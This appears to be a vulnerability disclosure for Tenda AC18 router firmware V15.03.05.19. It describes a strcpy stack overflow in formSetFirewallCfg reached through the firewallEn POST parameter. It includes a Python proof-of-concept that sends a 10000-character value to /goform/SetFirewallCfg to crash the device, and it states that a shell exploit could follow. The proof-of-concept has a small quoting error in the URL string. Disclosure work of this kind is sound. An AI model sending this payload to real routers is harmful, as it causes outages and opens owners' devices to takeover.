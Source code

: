 ## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

## 2. Vulnerability details


A stack overflow vulnerability exists in the formSetFirewallCfg function of the Tenda AC18 V15.03.05.019 firmware. The v1 variable retrieves the firewallEn parameter from a POST request without proper validation. 
The program directly copies the content of src into the stack buffer dest, using the strcpy function. However, no size validation is performed on the content of src before the copying operation. Since strcpy does not limit the length of the copied data, an attacker can supply a crafted "firewallEn" parameter with a length exceeding the size of the stack buffers, leading to a stack-based buffer overflow. This vulnerability can result in Denial of Service (DoS) by overwriting critical stack memory with controlled data.

   
   ![My Image](8.png)

## 3 POC
```python
import requests

url = 'http://IP:port/goform/SetFirewallCfg"

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'firewallEn': 'l' * 10000
}
res = requests.post(url=url, headers=headers, data=data)
print(res.text)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
